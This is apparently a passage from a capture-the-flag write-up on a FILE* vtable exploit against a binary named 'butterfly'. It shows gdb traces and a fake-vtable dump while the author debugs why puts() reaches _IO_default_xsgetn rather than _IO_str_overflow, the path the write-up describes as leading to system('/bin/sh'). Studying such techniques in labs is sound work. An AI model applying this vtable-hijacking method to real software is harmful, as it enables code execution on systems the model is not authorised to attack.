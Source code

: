 Considering this is the first time I've ever done a `FILE*` exploit, I really lucked out on how close my solution was to the right answer:
```c
[#0] Id 1, Name: "butterfly", stopped 0x7f2ee404c45f in __GI__IO_default_uflow (), reason: SIGSEGV
────────────────────────────────────────── trace ─────────────────────────────────────────────────
[#0] 0x7f2ee404c45f → __GI__IO_default_uflow(fp=0x7f2ee43aa760 <_IO_2_1_stdout_>)
[#1] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760 <_IO_2_1_stdout_>)
[#2] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760 <_IO_2_1_stdout_>)
[#3] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760 <_IO_2_1_stdout_>)
[#4] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760 <_IO_2_1_stdout_>)
[#5] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760 <_IO_2_1_stdout_>)
[#6] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760 <_IO_2_1_stdout_>)
[#7] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760 <_IO_2_1_stdout_>)
[#8] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760 <_IO_2_1_stdout_>)
[#9] 0x7f2ee404c462 → __GI__IO_default_uflow(fp=0x7f2ee43aa760 <_IO_2_1_stdout_>)
```
An infinite loop? That can't be right.

Doing a little bit of backtracing, I realise where the error lies:
```c
[#0] 0x7f2ee404c69d → __GI__IO_default_xsgetn(fp=0x7f2ee43aa760 <_IO_2_1_stdout_>, data=<optimized out>, n=0x3)
[#1] 0x7f2ee403eaff → _IO_puts(str=0x560377d75c68 "Bye")
[#2] 0x560377d75b35 → mov edi, 0x1337
[#3] 0x560377d75b6a → mov eax, 0x0
```
`puts()` is calling `__IO_default_xsgetn` instead of `__IO_str_overflow`, which — if you remember from a long while back — is our key to executing `system("/bin/sh")`.

The instruction that calls `__IO_default_xsgetn` is none other than this:
```python
   0x7f48c65a3af5 <puts+197>       mov    rdx, rbx
   0x7f48c65a3af8 <puts+200>       mov    rsi, r12
 → 0x7f48c65a3afb <puts+203>       call   QWORD PTR [r13+0x38]
   0x7f48c65a3aff <puts+207>       cmp    rbx, rax
   0x7f48c65a3b02 <puts+210>       jne    0x7f48c65a3ba1 <_IO_puts+369>
```
`r13`, if you do the leg-work, is actually the `fake_vtable_addr` we provide in the exploit code:
```python
(gdb) telescope $r13
0x00007f48c690b368│+0x0000: 0x0000000000000000   ← $r13
0x00007f48c690b370│+0x0008: 0x00007f48c65b3370  →  <_IO_str_finish+0> push rbx
0x00007f48c690b378│+0x0010: 0x00007f48c65b2fd0  →  <_IO_str_overflow+0> mov ecx, DWORD PTR [rdi]       # Need to call this
0x00007f48c690b380│+0x0018: 0x00007f48c65b2f70  →  <_IO_str_underflow+0> mov rax, QWORD PTR [rdi+0x28]
0x00007f48c690b388│+0x0020: 0x00007f48c65b1430  →  <_IO_default_uflow+0> push rbp
0x00007f48c690b390│+0x0028: 0x00007f48c65b3350  →  <_IO_str_pbackfail+0> test BYTE PTR [rdi], 0x8
0x00007f48c690b398│+0x0030: 0x00007f48c65b1490  →  <_IO_default_xsputn+0> test rdx, rdx
0x00007f48c690b3a0│+0x0038: 0x00007f48c65b1640  →  <_IO_default_xsgetn+0> push r15                     # This is called instead
0x00007f48c690b3a8│+0x0040: 0x00007f48c65b34a0  →  <_IO_str_seekoff+0> push r14
0x00007f48c690b3b0│+0x0048: 0x00007f48c65b1a00  →  <_IO_default_seekpos+0> push rbx
```
We need `_IO_str_overflow`, but we're getting `_IO_default_xsgetn` instead. The reason for this could not have been more obvious if I had read the blog clearly on the first pass:
> Now, if I point the vtable to 0x10 bytes before it, fclose will call _IO_str_overflow **(again from gdb)**.
